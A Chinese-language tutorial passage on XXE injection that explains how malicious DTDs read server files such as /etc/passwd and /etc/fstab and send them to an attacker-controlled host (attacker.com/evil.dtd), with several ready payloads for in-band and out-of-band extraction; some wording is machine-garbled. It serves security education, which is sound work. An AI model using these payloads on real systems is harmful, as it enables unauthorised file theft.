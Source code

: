 ```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

解析：

当攻击者发送上述请求时，XML解析器将首先**%dtd**通过向**http://attacker.com/evil.dtd**发出请求来尝试处理参数实体**。**

一旦下载了攻击者的DTD，XML解析器将加载`%file`参数实体（来自**evil.dtd**），在本例中是`/etc/fstab`。然后它将分别`<![CDATA[ ]]>`使用`%start`和`%end`参数实体将文件的内容包装在标签中，并将它们存储在另一个名为的参数实体中`%all`。

这个技巧的核心是`%all`创建一个被调用的**通用**实体`&fileContents;`，它可以作为响应的一部分包含在攻击者中。

注:攻击者**可以**只使用DTD内参数实体，而不是内部的XML文档）

结果是回复攻击者，文件（`/etc/fstab`）的内容包含在`CDATA`标签中。

## 4.利用方式总结

**1.有回显情况，**

结合外部实体声明（实体名称 SYSTEM ”uri/url“）和参数实体（% 实体名称 SYSTEM "uri-外部dtd"）有两种方式进行注入攻击

1

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "file:///etc/passwd">]>
<foo>&xxe;</foo>
```

2

```xml
<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://xxx/evil.dtd">
%xxe;]>
<foo>&evil;</foo>

```

外部evil.dtd的内容

```xml-dtd
<!ENTITY %evil SYSTEM "file:///ect/passwd">
```

**2.无回显情况**

可以使用外带数据通道提取数据，先用file://或php://filter获取目标文件的内容，然后将内容以http请求发送到接收数据的服务器（攻击服务器）

```xml
<!DOCTYPE updateProfile[
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://xxx/evil.dtd">
%dtd;
%send;
]>
```
